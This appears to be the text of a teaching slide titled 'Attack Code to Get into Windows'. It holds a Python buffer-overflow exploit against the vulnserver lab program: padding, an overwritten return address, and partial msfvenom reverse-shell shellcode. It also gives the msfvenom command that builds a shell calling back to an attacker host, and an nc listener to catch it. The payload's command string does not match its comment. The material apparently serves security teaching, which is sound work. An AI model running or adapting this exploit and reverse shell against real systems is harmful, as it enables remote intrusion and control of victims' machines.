

# To receive the reverse shell, run the following command at another terminal
#   nc -l -v -p 4444
# This module "socket" provides access to the BSD socket interface
import socket
# This module "struct" performs conversions between Python values
# and C structs represented as Python bytes objects.
import struct

HOST = '10.0.2.7'   # vitcim IP
PORT = 9999         # victim port

# Shellcode created by msfvenom
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0a'
SHELL =  b""
SHELL += b"\xba\xb7\x9a\xd6\x72\xd9\xea\xd9\x74\x24\xf4\x5e"

# Payload to inject into vulnserver
PAYLOAD = (
    b'KNOCK /.:/' +  # TRUN command of the server
    b'A' * 2002 +   # padding
    # b return a bytes object.
    # < means little-endian; L means unsigned long
    struct.pack('<L', 0x6250151C) +
    b'C' * 32 +
    SHELL
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
victim computer
Attack computer
# Attack Code to Get into Windows
7